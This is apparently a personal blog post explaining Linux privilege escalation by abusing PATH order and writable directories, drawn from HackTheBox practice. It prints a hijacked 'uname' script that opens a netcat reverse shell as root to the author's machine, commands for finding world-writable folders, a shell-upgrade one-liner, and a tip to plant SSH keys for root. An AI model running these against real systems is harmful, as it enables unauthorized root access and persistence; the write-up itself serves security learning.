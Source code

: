 ```yaml
---
layout: post
title:  "$PATH and Linux privilege escalation"
description: "A note concerning privilege escalation in Linux abusing path priorities."
---
```


# Path priority is important

A short note on why write permission could be a recipe for disaster.

When Linux looks for a path to execute binary called like:

```console
marek@marek-mint:~$ python
Python 2.7.15+ (default, Nov 27 2018, 23:36:35) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
It will check paths in order defined in PATH environmental variable, like this:

```console
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

So from left to right:

```console
marek@marek-mint:~$ file /usr/local/bin/python
/usr/local/bin/python: cannot open `/usr/local/bin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/sbin/python
/usr/sbin/python: cannot open `/usr/sbin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/bin/python
/usr/bin/python: symbolic link to python2.7
```
Found a symlink, executes then, the actual binary is:

```console
marek@marek-mint:~$ readlink -f /usr/bin/python
/usr/bin/python2.7
```

Apparently there.

# Privilege escalation

This method may be used to escalate privileges if our user has write permission to a directory another user or even root executed binaries from. So if let's say root executes a perl script and we can't tamper with the script maybe we can tamper with the interpreter binary itself. If it's possible to replace the binary with eg. a bash script with commands to execute, they will execute as root and escalate the privileges this way.

There may be a situation we don't even have to overwrite the binary, because if we put a malicious script named "perl" in a location that takes precedence in the PATH eg. */usr/local/sbin/perl* then it will be executed instead. Always look for writable locations during privilege escalation attempts.

Finding writable locations:
```console
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
```
Source: [g0tm1k](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)

So there was a script running as root with cron calling "uname". I created an executable script:

```console
user@remotemachine:~$ cat uname
#!/bin/sh

nc -e '/bin/sh' 10.0.0.3 9001
```
which would create a reverse shell as root to my local machine 10.0.0.3 listening on port 9001. 

```console
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.0.0.3] from (UNKNOWN) [10.0.0.4] 38682
whoami
root
```

Most of the time it's a good idea to upgrade shell like this:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
Of course nc might have not been installed on the remote box but any available command may be called as root this way. You may for example push your public key to authorized_keys of another user or root and login with SSH.

I've learned this during my [HackTheBox](https://hackthebox.eu) hacking attempts, a platform which I recommend as it has a great number of machines and challenges and supportive community.
